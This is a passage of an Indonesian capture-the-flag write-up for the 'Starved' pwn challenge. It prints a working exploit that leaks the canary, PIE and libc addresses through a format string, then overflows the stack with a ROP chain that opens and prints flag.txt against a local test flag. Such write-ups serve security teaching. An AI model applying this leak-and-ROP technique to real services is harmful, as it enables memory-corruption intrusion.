

# Starved — Eksploitasi

[← Overview](40-starved.md) · [Index](index.md)

> **Langkah 5/9 — Eksploitasi.** Tersimpan di writeups/assets/starved/exploit.py:
>
> **Titik penting:** python3 exploit.py \| tee 03-exploit-run.txt · NFX{LOCAL_TEST_FLAG_STARVED}
>
> **Berikutnya:** [Output asli](40-starved-06-output-asli.md)

## 3.1 Strategi

1. Kirim nickname `%27$p|%29$p|%85$p` → canary, PIE, libc.
2. Hitung:
   - `pie = leak29 - 0xf1d`
   - `libc = leak85 - 0x29d90`
3. Alamat yang dipakai:
   - `FNAME = pie + 0x3020` → string `"flag.txt"` yang sudah ada di `.data`.
   - `BUF = pie + 0x3100` → ruang writable di halaman `.bss`.
4. Kirim header `len` + `0xdead`, lalu payload:
   `408 filler + canary + dummy rbp + ROP`.
5. ROP:
   ```text
   close(0)
   open("flag.txt", O_RDONLY, 0)      # hasil fd = 0
   read(0, BUF, 0x100)
   write(1, BUF, 0x100)
   exit(0)
   ```
6. Flag tercetak.

## 3.2 Script exploit

Tersimpan di `writeups/assets/starved/exploit.py`:

```python
p.sendline(b'%27$p|%29$p|%85$p')
line = p.recvline().strip(); leaks = line.split(b'|')
canary    = int(leaks[0].split(b'halo, ')[1], 16)
pie       = int(leaks[1], 16) - 0xf1d
libc_base = int(leaks[2], 16) - 0x29d90

FNAME = pie + 0x3020
BUF   = pie + 0x3100
chain  = p64(libc_base + RET)
chain += p64(libc_base + POP_RDI) + p64(0) + p64(libc_base + CLOSE)
chain += p64(libc_base + POP_RDI) + p64(FNAME) + p64(libc_base + POP_RSI) + p64(0) + p64(libc_base + OPEN)
chain += p64(libc_base + POP_RDI) + p64(0) + p64(libc_base + POP_RSI) + p64(BUF) \
       + p64(libc_base + POP_RDX_RBX) + p64(0x100) + p64(0) + p64(libc_base + READ)
chain += p64(libc_base + POP_RDI) + p64(1) + p64(libc_base + POP_RSI) + p64(BUF) \
       + p64(libc_base + POP_RDX_RBX) + p64(0x100) + p64(0) + p64(libc_base + WRITE)
chain += p64(libc_base + libc.symbols['exit'])
payload = b'A' * 0x198 + p64(canary) + p64(0xdeadbeef) + chain
p.send(p32(len(payload)) + p32(0xdead))
p.send(payload)
```

> Catatan: `p64(0xdeadbeef)` hanyalah isi saved RBP; yang penting magic header `0xdead`.

Menjalankan:

```bash
cd writeups/assets/starved
echo 'NFX{LOCAL_TEST_FLAG_STARVED}' > flag.txt
python3 exploit.py | tee 03-exploit-run.txt
```

### Evidence langkah ini



*Terminal evidence — `03-exploit-run.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-exploit-run.txt`](assets/starved/03-exploit-run.txt)
